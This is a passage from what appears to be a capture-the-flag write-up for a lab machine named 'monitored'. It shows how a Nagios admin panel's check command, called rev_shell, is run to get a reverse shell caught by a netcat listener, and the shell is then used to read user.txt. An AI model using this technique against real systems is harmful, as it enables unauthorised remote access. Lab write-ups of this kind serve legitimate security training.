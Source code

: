 <img src="../figs/monitored10.png" alt="admin panel">

To run the command, we go to Services (left panel) > Add New and inside the Check command dropdown input, we select rev_shell. Then we click on Run Check Command. Don't forget to leave your netcat listening before hitting this button!

```bash
$ nc -lnvp 4242
Connection from 10.129.37.52:54666
bash: cannot set terminal process group (14645): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
nagios@monitored:~$ ls       
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
[...redacted...]
```
